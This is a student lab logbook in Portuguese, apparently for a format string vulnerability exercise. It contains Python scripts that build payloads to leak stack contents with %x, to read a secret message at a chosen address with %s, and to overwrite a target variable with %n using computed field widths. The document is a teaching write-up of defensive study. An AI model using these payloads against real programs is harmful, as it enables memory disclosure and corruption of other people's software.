







# Logbook 6

## Task 1

- Em duas consolas diferentes, numa enviámos uma mensagem, e na outra iniciámos os containers e vemos a resposta.






- Seguidamente ao executarmos o exploit de python que nos dão conseguimos ver que sem alterar nada, ele crasha o prorgrama format logo.



## Task 2

### Part A

- Mudámos o nosso script para isto:

``` python

#!/usr/bin/python3

import sys


# Initialize the content array

N = 1500

content = bytearray(0x0 for i in range(N))


# This line shows how to store a 4-byte integer at offset 0

number  = 0xbfffeeee

content[0:4]  =  (number).to_bytes(4,byteorder='little')


# This line shows how to store a 4-byte string at offset 4

content[4:8]  =  ("!!!!").encode('latin-1')


# This line shows how to construct a string s with

#   12 of "%.8x", concatenated with a "%n"

s = "%08x"*64


# The line shows how to store the string s at offset 8

fmt  = (s).encode('latin-1')

content[8:8+len(fmt)] = fmt


# Write the content to badfile

with open('badfile', 'wb') as f:

  f.write(content)

```

- Assim conseguimos obter os valores na stack, através da criação de uma string de 64 "%08x" e depois no início do output aparecem os !!!! e no fim o endereço que passámos no início para saber quais são os dados na stack.
 




### Part B

- Mudámos o script de python para isto:

``` python

#!/usr/bin/python3

import sys


# Initialize the content array

N = 1500

content = bytearray(0x0 for i in range(N))


# This line shows how to store a 4-byte integer at offset 0

number  = 0x080b4008 
#0xbfffeeee

content[0:4]  =  (number).to_bytes(4,byteorder='little')


# This line shows how to store a 4-byte string at offset 4

content[4:8]  =  ("!!!!").encode('latin-1')


# This line shows how to construct a string s with

#   12 of "%.8x", concatenated with a "%n"

s = " %x "*63 + " %s"


# The line shows how to store the string s at offset 8

fmt  = (s).encode('latin-1')

content[8:8+len(fmt)] = fmt


# Write the content to badfile

with open('badfile', 'wb') as f:

  f.write(content)

```

- Assim conseguimos obter a mensagem secreta **"A secret message"**, a expressão " %x "*63 + " %s"
é bastante importante, pois %x imprime os valores hexadecimais e %s imprime o valor apontado no endereço que especificámos no início do script.




## Task 3


### Part A

- O scrip passou a ser este:

``` python

#!/usr/bin/python3

import sys


# Initialize the content array

N = 1500

content = bytearray(0x0 for i in range(N))


# This line shows how to store a 4-byte integer at offset 0

number  = 0x080e5068
#0xbfffeeee

content[0:4]  =  (number).to_bytes(4,byteorder='little')


# This line shows how to store a 4-byte string at offset 4

content[4:8]  =  ("!!!!").encode('latin-1')


# This line shows how to construct a string s with

#   12 of "%.8x", concatenated with a "%n"

s = " %x "*63 + " %n"


# The line shows how to store the string s at offset 8

fmt  = (s).encode('latin-1')

content[8:8+len(fmt)] = fmt


# Write the content to badfile

with open('badfile', 'wb') as f:

  f.write(content)

```

- Basicamente só mudámos o endereço para ser igual ao da variável Target.




### Part B

- Mudámos o script para isto:

``` python 

#!/usr/bin/python3

import sys


# Initialize the content array

N = 1500

content = bytearray(0x0 for i in range(N))


# This line shows how to store a 4-byte integer at offset 0

number  = 0x080e5068
#0xbfffeeee

content[0:4]  =  (number).to_bytes(4,byteorder='little')


# This line shows how to store a 4-byte string at offset 4

content[4:8]  =  ("!!!!").encode('latin-1')


# This line shows how to construct a string s with

#   12 of "%.8x", concatenated with a "%n"

s = "%.300x "*62 + "%.1810x%n"


# The line shows how to store the string s at offset 8

fmt  = (s).encode('latin-1')

content[8:8+len(fmt)] = fmt


# Write the content to badfile

with open('badfile', 'wb') as f:

  f.write(content)

```

- Foi sem dúvida a tarefa mais dificil, porque tinhamos de encontrar valores especificos para o %x e para o %n, as contas 62 * 300 = 18 600 , se adicionarmos o 1810 ficámos com 20410, e 0x5000 em decimal é 20480, ou seja ficamos exatamente com 20480 com mais alguns caracteres que existam em processamento.




## Questão 2

- Não tem que ser sempre o caso em que a format string esteja alocada na stack, não é esse o problema da vulnerabilidade, o verdadeiro problema é o controlo da format string para o user sem a validação necessária.

- Os ataques que provavelmente não funcionariam de uma forma tão eficaz ou não funcionariam de todo, eram os da task3, porque o uso de specifiers como %n ou %x seria muito mais dificil porque está mais longe de pontos críticos e também devido à imprevisibilidade da heap.


---


